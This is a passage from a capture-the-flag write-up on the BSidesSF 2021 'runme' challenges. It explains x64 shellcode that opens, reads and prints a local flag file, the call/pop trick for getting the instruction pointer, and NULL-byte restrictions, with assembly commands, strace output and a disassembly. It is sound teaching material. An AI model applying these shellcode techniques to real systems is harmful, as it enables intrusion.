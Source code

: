 Or if you don't want to copy and paste, you can grab the file [from the solution folder](https://github.com/BSidesSF/ctf-2021-release/tree/main/runme/solution).

One of the weirdest things is that "call" business at the top. What's happening is that the <tt>call</tt> instruction pushes the next address onto the stack then jumps to the specified address. Typically you'd then use <tt>ret</tt> to return to that address, but we don't want to return to it. We want a pointer to it! So instead of consuming the address using <tt>ret</tt>, we pop it into a register to get a pointer to the flag path. This is a long-winded way to get the value of <tt>eip</tt>, the instruction pointer, which we can't normally access - it's a super common shellcoding trick, and we'll see it again on runme3 to build self-modifying code!

To run it, make sure you have a flag.txt file handy, assemble with <tt>nasm</tt>, and give it a whirl:

```
$ mkdir -p /home/ctf/
$ echo 'CTF{fake_flag}' > /home/ctf/flag.txt
$ nasm -o solution.bin solution.asm
$ ./runme < solution.bin
Send me x64!!
CTF{fake_flag}
```

You can also use <tt>strace</tt> to see what's going on (or debug if something isn't working.. I did that a lot writing this blog):

```
$ strace ./runme < solution.bin
[...]
open("/home/ctf/flag.txt", O_RDONLY)    = 3
read(3, "CTF{fake_flag}\n", 30)         = 15
write(1, "CTF{fake_flag}\ntxt\0_\276\0\0\0\0\272\0\0\0\0", 30CTF{fake_flag}
txt_) = 30
exit(0)                                 = ?
```

The same four syscalls from our source! You can see that open() runs, and returns 3 (the file handle). Then read runs, using the file handle 3, and returns 15 (the length of the flag). Then write() is called, with the file descriptor set to "1", which writes to stdout. And then we exit cleanly (that's optional).

## Runme2

Runme2 adds a very common restriction: no NULL bytes! It's so common, in fact, that most shellcode you can find online is already free of NULL bytes! But if you look at the code we wrote for runme1, it looks like this:

```
$ ndisasm -b64 solution.bin 
00000000  B802000000        mov eax,0x2
00000005  E813000000        call 0x1d
0000000A  2F                db 0x2f
0000000B  686F6D652F        push qword 0x2f656d6f
00000010  63                db 0x63
00000011  7466              jz 0x79
00000013  2F                db 0x2f
00000014  666C              o16 insb
00000016  61                db 0x61
00000017  672E7478          cs jz 0x93
0000001B  7400              jz 0x1d
0000001D  5F                pop rdi
0000001E  BE00000000        mov esi,0x0
00000023  BA00000000        mov edx,0x0
00000028  0F05              syscall
0000002A  57                push rdi
0000002B  50                push rax
0000002C  B800000000        mov eax,0x0
```